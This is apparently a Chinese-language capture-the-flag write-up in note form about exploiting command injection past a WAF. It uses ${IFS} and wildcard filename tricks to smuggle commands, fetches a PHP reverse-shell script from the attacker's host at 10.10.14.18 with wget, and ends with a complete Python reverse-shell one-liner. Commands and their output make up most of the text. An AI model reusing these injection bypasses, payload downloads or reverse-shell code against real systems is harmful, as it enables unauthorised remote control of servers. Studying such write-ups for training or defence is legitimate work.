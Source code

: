 
wget -v

/usr/bin/w??t${IFS}-v%20%23

结果：
```
/usr/bin/wget: invalid option -- &#039;%&#039;<br>/usr/bin/wget: invalid option -- &#039;2&#039;<br>/usr/bin/wget: invalid option -- &#039;0&#039;<br>/usr/bin/wget: invalid option -- &#039;%&#039;<br>/usr/bin/wget: invalid option -- &#039;2&#039;<br>/usr/bin/wget: invalid option -- &#039;3&#039;<br>Usage: wget [OPTION]... [URL]...<br><br>Try `wget --help&#039; for more
```
---

本地开启802端口，准备好w.php——php反弹shell脚本。

```
wget http://10.10.14.18:802/w.php -P /tmp

/usr/bin/w??t${IFS}http://10.10.14.18:802/w.php${IFS}/tmp%20%23
```
![21](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/21.PNG)
成功

---
本地准备nc监听9000端口，等待反弹shell

```
chmod +x /tmp/w.php;./tmp/w.php

chmod${IFS}+x${IFS}/tmp/w.php;./tmp/w.php%20%23

结果：./tmp/w.php%20%23 not found
问题是，不知道wget把w.php保存到哪里去了。用/bin/ls也没有找到。
```
---

```
chmod${IFS}+x${IFS}/tmp/w.php;php${IFS}/tmp/w.php%20%23

Could not open input file: /tmp/w.php%20%23
```
---
ls被waf拦截，使用echo

`echo${IFS}/tmp/w.php%20%23`  成功

---
python --version

python${IFS}--version${IFS}%20%23

Python 2.7.15+

---

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
